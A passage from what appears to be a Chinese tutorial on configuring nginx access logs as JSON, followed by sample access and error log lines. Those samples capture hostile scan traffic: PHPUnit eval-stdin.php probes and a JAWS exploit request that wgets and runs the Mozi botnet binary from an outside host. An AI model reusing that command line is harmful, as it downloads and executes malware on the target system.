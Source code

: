 ```code  

        # 设置日志存储路径，一个项目一个文件
        access_log /usr/local/nginx/logs/nginx001_access.log json;
        error_log /usr/local/nginx/logs/nginx001_error.log;
    
    #省略其他nginx配置
    
    }

#重启 nginx 容器，或者重新加载配置文件，检查access日志格式为json格式，错误日志保持 nginx 默认格式即可

```  
> 4.1.2 最终的日志格式效果, 总之原则就是access日志必须是json格式，error 格式保持默认即可.    
```code  
# nginx001_access.log 日志
{"created_at":"2020-09-21T03:57:35+08:00","time_local":"21/Sep/2020:03:57:35 +0800","remote_addr":"45.146.164.186","method":"GET","request":"GET /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1","status":"404","size":555,"referer": "-","http_host":"49.232.145.118:80","response_time":0.274,"http_x_forwarded_for":"-","user_agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36"}
{"created_at":"2020-09-21T04:02:19+08:00","time_local":"21/Sep/2020:04:02:19 +0800","remote_addr":"45.146.164.186","method":"POST","request":"POST /vendor/phpunit/phpunit/src/Util/PHP/eval-stdin.php HTTP/1.1","status":"404","size":555,"referer": "-","http_host":"49.232.145.118:80","response_time":0.273,"http_x_forwarded_for":"-","user_agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/78.0.3904.108 Safari/537.36"}
{"created_at":"2020-09-21T04:04:22+08:00","time_local":"21/Sep/2020:04:04:22 +0800","remote_addr":"78.188.205.21","method":"GET","request":"GET / HTTP/1.1","status":"200","size":199,"referer": "-","http_host":"49.232.145.118:80","response_time":0.000,"http_x_forwarded_for":"-","user_agent": "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.103 Safari/537.36"}
{"created_at":"2020-09-21T04:58:00+08:00","time_local":"21/Sep/2020:04:58:00 +0800","remote_addr":"192.241.221.22","method":"GET","request":"GET / HTTP/1.1","status":"200","size":199,"referer": "-","http_host":"49.232.145.118","response_time":0.000,"http_x_forwarded_for":"-","user_agent": "Mozilla/5.0 zgrab/0.x"}

# nginx001_error.log 日志
2020/09/21 00:57:00 [error] 6#0: *26 open() "/usr/local/nginx/html/elrekt.php" failed (2: No such file or directory), client: 106.52.153.48, server: localhost, request: "GET /elrekt.php HTTP/1.1", host: "49.232.145.118"
2020/09/21 00:57:00 [error] 6#0: *27 open() "/usr/local/nginx/html/index.php" failed (2: No such file or directory), client: 106.52.153.48, server: localhost, request: "GET /index.php HTTP/1.1", host: "49.232.145.118"
2020/09/21 01:50:50 [error] 6#0: *30 open() "/usr/local/nginx/html/shell" failed (2: No such file or directory), client: 123.96.229.15, server: localhost, request: "GET /shell?cd+/tmp;rm+-rf+*;wget+http://123.96.229.15:35278/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1", host: "49.232.145.118:80"
# 可能还有其他的错误格式
2018/07/09 16:50:34 [error] 78175#0: *21132 FastCGI sent in stderr: "PHP message: PHP Warning:  Unknown: open_basedir restriction in effect. File(/usr/local/jenkins_manage_project/2018/bestbox_first/public/index.php) is not within the allowed path(s): (/home/wwwroot/:/tmp/:/proc/) in Unknown on line 0
PHP message: PHP Warning:  Unknown: failed to open stream: Operation not permitted in Unknown on line 0
Unable to open primary script: /usr/local/jenkins_manage_project/2018/bestbox_first/public/index.php (Operation not permitted)" while reading response header from upstream, client: 192.168.6.85, server: 192.168.8.62, request: "GET / HTTP/1.1", upstream: "fastcgi://unix:/tmp/php-cgi.sock:", host: "192.168.8.62"

```
